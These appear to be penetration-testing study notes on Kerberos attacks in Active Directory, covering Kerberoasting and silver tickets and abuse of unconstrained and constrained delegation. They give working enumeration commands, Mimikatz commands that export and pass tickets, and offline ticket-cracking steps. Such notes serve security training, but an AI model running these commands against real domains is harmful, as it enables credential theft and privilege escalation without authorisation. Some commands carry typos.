 # Kerberos

![Kerberos](https://lh5.googleusercontent.com/UeGIGlYK5NvC4FIRPCzOgdeL_UeDjrvszzw2ZbJgitgE_Mdbi1Z6HZSG9VHfBJSDwP2W4ifN9JkpSa9jx-BA=w1360-h611-rw)

## Silver Tickets
- Password hashes of service accounts could be used to create
- Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
- Can request a ticket and do offline brute forcing.

![Kerberos Silver Ticket](https://lh5.googleusercontent.com/OKN30PLvn-kXiOXCz4fHfd7mHn_SUCdTnJBRB_NRYpWj9B57kc8cbyn1Ga-pLlWQ38jNvRs7Cz-gpQr0iFpg=w1360-h611-rw)
> https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD

- KDC does not handle authorization
- Can request TGS for any service
- TGS is encrypted using target-service NTLM hash
- .:. it is possible to brute-force the TGS to get target-service account credentials

### Find Service Accounts

GetUserSPNs
> https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

PowerView (SPN = Service Principal Name)
```
Get-Netuser -SPN
```

ActiveDirectory Module
```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
### Request SPN Ticket

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
```

PowerView
```
Request-SPNTicket
```

### Save Tieket

List all tickets in cache (check if granted)
```
klist
```

Mimikatz
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
### Bruteforce
```
python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
```

or use John


## Kerberos Delegation
- Allows reusing the end-user credentials to access resources hosted on a different server.
- Used when `Kerberos Double Hop` is required.
- Impersonating the incoming/authentication user is necessary to work.
- Types:
  - Unconstrained (only Windows Server 2003 <) - Allow authentication to any service in the domain
  - Constrained

### Unconstrained Kerberos Delegation

![Kerberos Delegation](https://lh5.googleusercontent.com/MgazYuWpQRvg25S48nMh5iPbeX76N-GF078pRWy7jBo4MqO3k4rPaBHdZXDL-GLEqv2GDfrsMlp6gNahYYLU=w1360-h611-rw)
> https://drive.google.com/open?id=1VZvQcin4RN7PkByplk-LhI1P3mrCoJXY

1. User provide credentials to DC
2. DC returns TGT
3. User request TGS for web service
4. DC provides TGS (TGS contains user's TGT)
5. User sends TGT and TGS to web Server
6. Web server service account use user's TGT to request a TGS got database server from DC
 - Web server service account can decrypt TGS and extract the user's TGT
 - This is because TGS is encryoted with web server service account's NTLM hash
7. Web server service account connects to database impersonating the user

#### Identifying Nodes with Unconstrained Delegation Enabled

```
Get-NetComputer -UnConstrained
```

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

##### Attack Pattern

- Compromise the server that use unconstrained delegation
- Wait for a high privileged connect
- Once connected, export all the tickets including TGT for that User

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Reuse tickets with
```
Invoke-Mimikatz -Command '"kerberos::ppt C:\tickets\admin.kirbi"'
```

### Constrained Kerberos Delegation

- Only provide access to specified services on a specifiv computer
- Service account must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute
- Service account can asccess all services specified in msDS-AllowedToDelegateTo attribute

#### Identifying Users with Unconstrained Delegation Enabled

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
##### Attack Patterns

- Protocol Transition used in SSO
- Delegation occurs not only for the specific service but for any service running under the same account. No validation for the SPN specified.

> https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/


## Reference:
> - https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal
> - https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos
> - https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H

- https://blog.redforce.io/oh-my-kerberos-do-not-get-kerberoasted/
